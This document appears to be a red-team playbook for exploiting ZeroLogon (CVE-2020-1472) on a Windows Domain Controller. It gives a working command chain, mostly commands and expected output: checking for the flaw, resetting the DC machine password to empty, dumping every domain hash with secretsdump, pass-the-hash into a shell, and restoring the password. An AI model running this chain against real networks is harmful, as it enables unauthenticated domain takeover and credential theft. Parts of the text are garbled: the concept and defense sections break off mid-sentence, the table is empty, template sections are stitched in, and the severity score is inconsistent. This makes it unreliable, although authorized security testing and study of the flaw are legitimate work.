

# ZeroLogon Exploitation (CVE-2020-1472)

## When to Use
- **EXTREME WARNING**: Utilizing this exploit in a production environment will inherently break the Domain Controller's communication with the rest of the domain until its password is reconstructed properly from the registry. Only utilize this on authorized Red Team engagements against non-patched legacy systems where the risk is pre-approved.
- When you have network line-of-sight to the Domain Controller and need a direct, unauthenticated path to Domain Administrator capabilities.
- To demonstrate the catastrophic impact of failing to patch critical cryptography flaws in core identity infrastructure.


## Prerequisites
- Authorized scope and rules of engagement for the target environment
- Appropriate tools installed on the attack/analysis platform
- Understanding of the target technology stack and architecture
- Documentation template ready for findings and evidence capture

## Workflow

### Phase 1: Understanding the Flaw (The Concept)

```text
# Concept: The Netlogon protocol uses a flawed cryptographic implementation for authentication 
# specifically the AES-CFB8 encryption scheme.

# The Vulnerability ```

### Phase 2: Detecting Vulnerability

```bash
# Before launching the attack, definitively verify if the DC is unpatched without breaking it.
# We utilize the standard Python tester script (widely available on GitHub from Secura).

python3 zerologon_tester.py DC-NAME 192.168.1.10

# Expected Vulnerable Output:
# Performing authentication attempts...
# Success! DC can be fully compromised by a Zerologon attack.

# Expected Patched Output:
# Attack failed. Target is probably patched.
```

### Phase 3: Exploitation (The Zeroing)

```bash
# CONCEPT: The exploit We use the full exploit script (e.g., cve-2020-1472-exploit.py) 
python3 cve-2020-1472-exploit.py DC-NAME 192.168.1.10

# Output Result: Success! DC machine password has been set to empty string.
```

### Phase 4: Dumping the Hashes (secretsdump)

```bash
# Now that the DC's machine account password is an empty string, we can use Impacket's 
# secretsdump.py to authenticate as the DC itself and extract the NTLM hashes of ALL users 
# (including the Domain Admin and the KRBTGT account).

# Format: domain/DC_NAME\$@DC_IP -no-pass
secretsdump.py contoso.local/DC-NAME\$@192.168.1.10 -no-pass

# Copy the Administrator NTLM Hash:
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:88e4d9fabaecf3dec18dd80905521b29:::
```

### Phase 5: Pass the Hash & OPSEC Restoration (CRITICAL)

```bash
# Obtain an interactive shell wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:88e4d9fabaecf3dec18dd80905521b29 Administrator@192.168.1.10

# CRITICAL RESTORATION 1. From the WMI shell, extract the original machine account hash reg save HKLM\SYSTEM system.save
# reg save HKLM\SAM sam.save
# reg save HKLM\SECURITY security.save
# lsa_dump

# 2. Use a restoration script python3 restorepassword.py contoso.local/DC-NAME@DC-NAME -target-ip 192.168.1.10 -hexpass <ORIGINAL_HEX_PASSWORD>
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Patch Management**: The absolute and only definitive defense is **Network Segmentation**: Isolate **Monitor Event IDs**: Look Key Concepts
| Concept | Description |
|---------|-------------|
| MS-NRPC (Netlogon) | |
| Cryptographic Implementation Flaw | |


## Output Format
```
Zero Logon Exploitation — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## 🏁 Execution Phase (Steps to Reproduce)
1. Perform target reconnaissance.
2. Formulate payload based on endpoints.
3. Execute the exploit and capture exfiltrated data.

**Severity Profile:** High (CVSS: 8.5)

## References
- Secura: [Zerologon Whitepaper](https://www.secura.com/pathto/zerologon)
- CISA: [CVE-2020-1472 Windows Netlogon Vulnerability](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-254a)
- Impacket: [ZeroLogon Exploit (GitHub)](https://github.com/dirkjanm/CVE-2020-1472)
